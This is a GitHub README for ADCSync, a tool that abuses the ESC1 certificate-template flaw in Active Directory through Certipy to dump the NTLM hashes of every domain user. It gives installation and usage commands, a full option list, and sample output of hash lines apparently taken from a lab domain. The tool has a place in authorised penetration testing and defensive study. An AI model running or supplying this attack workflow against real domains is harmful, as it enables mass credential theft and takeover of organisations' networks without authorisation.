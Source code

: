 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DSRUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

```
python3 adcsync.py -u clu -p theperfectsystem -ca THEGRID-KFLYNN-DC-CA -template SmartCard -target-ip 192.168.0.98 -dc-ip 192.168.0.98 -f users.json -o ntlm_dump.txt

    ___    ____  ___________
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__
/_/  |_/_____/\____//____/\__, /_/ /_/\___/
                         /____/

Grabbing user certs:
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 105/105 [02:18<00:00,  1.32s/it]
THEGRID.LOCAL/shirlee.saraann::aad3b435b51404eeaad3b435b51404ee:68832255545152d843216ed7bbb2d09e:::
THEGRID.LOCAL/rosanne.nert::aad3b435b51404eeaad3b435b51404ee:a20821df366981f7110c07c7708f7ed2:::
THEGRID.LOCAL/edita.lauree::aad3b435b51404eeaad3b435b51404ee:b212294e06a0757547d66b78bb632d69:::
THEGRID.LOCAL/carol.elianore::aad3b435b51404eeaad3b435b51404ee:ed4603ce5a1c86b977dc049a77d2cc6f:::
THEGRID.LOCAL/astrid.lotte::aad3b435b51404eeaad3b435b51404ee:201789a1986f2a2894f7ac726ea12a0b:::
THEGRID.LOCAL/louise.hedvig::aad3b435b51404eeaad3b435b51404ee:edc599314b95cf5635eb132a1cb5f04d:::
THEGRID.LOCAL/janelle.jess::aad3b435b51404eeaad3b435b51404ee:a7a1d8ae1867bb60d23e0b88342a6fab:::
THEGRID.LOCAL/marie-ann.kayle::aad3b435b51404eeaad3b435b51404ee:a55d86c4b2c2b2ae526a14e7e2cd259f:::
THEGRID.LOCAL/jeanie.isa::aad3b435b51404eeaad3b435b51404ee:61f8c2bf0dc57933a578aa2bc835f2e5:::
```

## Introduction
ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation
```
git clone https://github.com/JPG0mez/adcsync.git
cd adcsync
pip3 install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```
# python3 adcsync.py --help
    ___    ____  ___________                 
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__  
/_/  |_/_____/\____//____/\__, /_/ /_/\___/  
                         /____/              

Usage: adcsync.py [OPTIONS]

Options:
  -f, --file TEXT      Input User List JSON file from Bloodhound  [required]
  -o, --output TEXT    NTLM Hash Output file  [required]
  -ca TEXT             Certificate Authority  [required]
  -dc-ip TEXT          IP Address of Domain Controller  [required]
  -u, --user TEXT      Username  [required]
  -p, --password TEXT  Password  [required]
  -template TEXT       Template Name vulnerable to ESC1  [required]
  -target-ip TEXT      IP Address of the target machine  [required]
  --help               Show this message and exit.

```

## Acknowledgements
* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing